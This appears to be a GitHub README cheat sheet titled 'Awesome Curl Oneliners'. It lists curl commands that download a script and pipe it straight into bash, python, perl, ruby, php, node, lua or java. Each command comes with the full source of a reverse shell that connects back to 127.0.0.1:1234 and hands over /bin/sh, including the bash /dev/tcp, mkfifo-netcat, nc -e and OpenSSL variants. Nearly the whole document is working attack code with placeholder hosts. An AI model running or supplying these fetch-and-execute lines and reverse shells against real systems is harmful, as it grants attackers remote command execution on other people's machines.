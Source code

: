 <h1 align="center"><b>Awesome Curl Oneliners</b></h1>

![image](https://github.com/user-attachments/assets/4e9e721d-5d9e-4e55-bcf2-6bde75d9b3d8)



<br>
<br>

Bash Reverse Shell

```bash

curl -s http://example.com/shell.sh | bash

```

shell.sh:

```bash

#!/bin/bash
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1

```

Bash Reverse Shell using mkfifo

```bash

curl -s http://example.com/shell_fifo.sh | bash

```

shell_fifo.sh:

```bash

#!/bin/bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f

```

Python 2 Reverse Shell

```bash

curl -s http://example.com/shell_py2.py | python

```

shell_py2.py:

```bash

import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 1234))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])

```

Python 3 Reverse Shell

```bash

curl -s http://example.com/shell_py3.py | python3

```

shell_py3.py:

```bash

import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 1234))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])

```

Perl Reverse Shell

```bash

curl -s http://example.com/shell.pl | perl

```

shell.pl:

```bash

#!/usr/bin/perl
use Socket;
$i="127.0.0.1";
$p=1234;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
  open(STDIN,">&S");
  open(STDOUT,">&S");
  open(STDERR,">&S");
  exec("/bin/sh -i");
};


```

Ruby Reverse Shell

```bash

curl -s http://example.com/shell.rb | ruby

```

shell.rb:

```bash

#!/usr/bin/env ruby
require 'socket'
require 'open3'

def exec_cmd(cmd)
  Open3.popen2e(cmd) do |stdin, stdout_and_stderr, wait_thr|
    stdout_and_stderr.each do |line|
      yield line
    end
  end
end

s = TCPSocket.open("127.0.0.1", 1234)

while (line = s.gets)
  exec_cmd(line.chomp) do |output|
    s.puts output
  end
end

```

PHP Reverse Shell

```bash

curl -s http://example.com/shell.php | php

```

shell.php:

```bash

<?php
$ip = '127.0.0.1';
$port = 1234;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>

```

Netcat Reverse Shell

```bash

curl -s http://example.com/shell_nc.sh | bash

```

shell_nc.sh:

```bash

#!/bin/bash
nc -e /bin/sh 127.0.0.1 1234

```

OpenSSL Reverse Shell

```bash

curl -s http://example.com/shell_openssl.sh | bash

```

shell_openssl.sh:

```bash

#!/bin/bash
mkfifo /tmp/ssl; openssl s_client -quiet -connect 127.0.0.1:1234 < /tmp/ssl | /bin/sh > /tmp/ssl 2>&1; rm /tmp/ssl

```
Node.js Reverse Shell


```bash
curl -s http://example.com/shell.js | node



```

shell.js:

```bash

(() => {
    const net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    const client = new net.Socket();
    client.connect(1234, "127.0.0.1", () => {
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the node script from crashing
})();

```
Lua Reverse Shell

 
```bash
curl -s http://example.com/shell.lua | lua
```
shell.lua:

 
```bash
local host, port = "127.0.0.1", 1234
local socket = require("socket")
local tcp = socket.tcp()
tcp:connect(host, port)
while true do
  local cmd = tcp:receive()
  local handle = io.popen(cmd)
  local result = handle:read("*a")
  handle:close()
  tcp:send(result)
end
```

Java reverse shell

```bash
curl -s -o shell.java http://localhost/shell.java && javac shell.java | java shell
```

shell.java:

```bash

import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class shell {
    public static void main(String[] args) {
        try {
            Socket s = new Socket("127.0.0.1", 1234);
            InputStream in = s.getInputStream();
            OutputStream out = s.getOutputStream();
            Process p = new ProcessBuilder("/bin/sh").redirectErrorStream(true).start();
            InputStream pin = p.getInputStream();
            OutputStream pout = p.getOutputStream();
            while (!s.isClosed()) {
                while (in.available() > 0) pout.write(in.read());
                while (pin.available() > 0) out.write(pin.read());
                out.flush();
                pout.flush();
                try {
                    p.exitValue();
                    break;
                } catch (Exception e) {
                    // Process not finished yet
                }
            }
            p.destroy();
            s.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
